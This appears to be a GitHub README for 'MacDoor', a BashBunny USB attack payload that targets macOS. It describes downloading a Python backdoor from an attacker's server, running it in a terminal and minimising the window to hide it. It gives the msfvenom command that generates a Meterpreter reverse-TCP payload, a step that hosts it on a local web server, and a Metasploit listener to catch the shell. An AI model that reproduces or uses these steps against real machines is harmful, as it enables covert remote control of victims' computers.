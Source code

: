 # MacDoor - Python Backdoor Execution for the BashBunny


```  
    __  ___              ____                     
   /  |/  /____ _ _____ / __ \ ____   ____   _____
  / /|_/ // __ `// ___// / / // __ \ / __ \ / ___/
 / /  / // /_/ // /__ / /_/ // /_/ // /_/ // /    
/_/  /_/ \__,_/ \___//_____/ \____/ \____//_/     
```

* Author:     afsh4ck
* Version:    1.0
* Target:     MacOS
* Tested on:  Ventura 13.3.1
* Category:   Execution

# DESCRIPTION

Download a Python backdoor from our server, run it in terminal and minimize the terminal window.

# STEPS

* Step 1: msfvenom -p python/meterpreter/reverse_tcp LHOST={your IP} LPORT=4444 -o backdoor.py  
* Step 2: mount a local server 'python3 -m http.server'  
* Step 3: msfconsole multi/handler listener open before the attack.

# NOTE

* You need to modify the script with your attacker IP and the port or your local server.

